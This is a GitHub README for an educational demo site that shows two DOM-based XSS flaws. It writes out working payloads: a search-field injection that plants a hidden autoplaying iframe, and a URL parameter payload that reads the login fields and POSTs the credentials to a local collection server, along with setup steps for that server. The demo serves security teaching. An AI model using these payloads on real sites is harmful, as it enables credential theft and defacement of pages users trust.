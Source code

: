 # No Man's Land Revenue Agency 

This is a demo of two DOM-based XSS vulnerabilities in a specifically crafted for this purpose website.
Imagine you're in No Man's Land and you need to access their revenue agency in order to fill in some tax statements...

## Instructions

To get started, navigate to No Man's Land Revenue Agency home page: https://mtsanovv.github.io/nomanslandra/frontend/index.html

- To inject malicious code via html element, open the search page and put the following string in the query input field and then press 'Search':
```article');$("#search").append("<img src=\"https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif\"/><iframe width=\"1\" height=\"1\" src=\"https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1&loop=1\"><\/iframe>");console.log('```

- To inject malicius code via url:
    1. Create a MySQL database using the ```storeCredentials.sql``` file from the ```backend``` directory and grant ```SELECT/INSERT/UPDATE/DELETE``` privileges for it to some user
    2. Navigate to the ```backend``` directory and configure the MySQL properties in ```server.js``` (make sure to use the user from step 1)
    3. Run ```node server.js``` (you may need to run first ```npm install express mysql cors``` in the ```backend``` directory)
    4. Navigate to the following URL: ```https://mtsanovv.github.io/nomanslandra/frontend/login.html?continue=$.ajax({contentType:%27application/json%27,type:%27POST%27,url:%27http://localhost:3000/storeCredentials%27,data:JSON.stringify({username:$(%27input:eq(0)%27).val(),password:$(%22input:eq(1)%22).val()})});$(%22article%22).first().append(%27%3Cimg%20src=%22https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif%22/%3E%3Ciframe%20width=%221%22%20height=%221%22%20src=%22https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1%22%3E%3C/iframe%3E%27);console.log```

# Notes
- Created for educational purposes only and to demonstrate how bad XSS can be
- Recommended browser engine: Chromium (Chrome). Gecko (Firefox) might also work but it has not been tested and WebKit (Safari) is not recommended due to odd behavior
- This is the unencoded JavaScript code for the 'continue' parameter in the malicious URL:
```$.ajax({contentType:'application/json',type:'POST',url:'http://localhost:3000/storeCredentials',data:JSON.stringify({username:$('input:eq(0)').val(),password:$("input:eq(1)").val()})});$("article").first().append('<img src="https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif"/><iframe width="1" height="1" src="https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1"></iframe>');console.log```
- The website is based on Telephasic by HTML5UP!
- Malicious code nspired by: https://btvnovinite.bg/bulgaria/shegadzhii-udariha-sajta-na-nap.html

# License
Creative Commons Attribution 3.0 Unported
http://creativecommons.org/licenses/by/3.0/

*M.Tsanov, 2023*
